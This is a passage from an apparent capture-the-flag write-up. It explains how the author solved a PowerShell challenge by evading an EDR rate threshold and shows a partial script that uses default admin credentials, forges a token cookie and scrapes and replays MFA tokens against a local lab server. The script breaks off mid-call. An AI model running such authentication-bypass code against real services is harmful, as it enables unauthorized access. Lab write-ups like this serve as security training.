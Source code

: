 #### Solution

From the hint it we know that there is an EDR in place that reacts on number of attempts trid. The hint also hints at if there's more attempts than an unknown threshold, the attempts just passed through. Looking at the other hint, I figured out I have to try to see if there are some other endpoints available too. So, to solve Gold, I had a sitdown with myself to refactor my previous code by taking basis in solution 7 and 10 above and create something new. Ended up with this: 

```powershell
# Define base URL and credentials
$baseUrl = "http://127.0.0.1:1225"
$username = "admin"
$password = "admin"

# Create a secure credential object
$credential = New-Object System.Management.Automation.PSCredential($username, (ConvertTo-SecureString $password -AsPlainText -Force))

# Download CSV file
try {
    $csvResponse = Invoke-WebRequest -Uri "$baseUrl/token_overview.csv" -Credential $credential -AllowUnencryptedAuthentication -UseBasicParsing
    $csvResponse.Content > tokens.csv
} catch {
    Write-Error "Failed to download CSV: $_"
    exit
}

# Parse CSV
try {
    $csvData = Import-Csv -Path "tokens.csv"
} catch {
    Write-Error "Failed to parse CSV: $_"
    exit
}

# Process each row
foreach ($row in $csvData) {
    try {
        # Access MD5 hash from the row
        $md5Sum = $row.file_MD5hash

        # Compute SHA256 hash using a temporary file
        $tempFile = New-TemporaryFile
        $md5Sum | Out-File -FilePath $tempFile.FullName -Encoding ASCII
        $sha256Sum = (Get-FileHash -Path $tempFile.FullName -Algorithm SHA256).Hash.Trim()
        Remove-Item -Path $tempFile.FullName -Force

        # Fetch MFA token
        $mfaResponse = Invoke-WebRequest -Uri "$baseUrl/tokens/$sha256Sum" -Credential $credential -AllowUnencryptedAuthentication -Headers @{
            Cookie = "token=$md5Sum"
        } -UseBasicParsing

        # Extract MFA token
        if ($mfaResponse.Content -match "href='([^']+)'") {
            $mfaToken = $matches[1]
        } else {
            continue
        }

        # Validate MFA with mfa_token included
        $validationResponse = Invoke-WebRequest -Uri "$baseUrl/mfa_validate/$sha256Sum" -Credential $credential -AllowUnencryptedAuthentication -Headers @{
```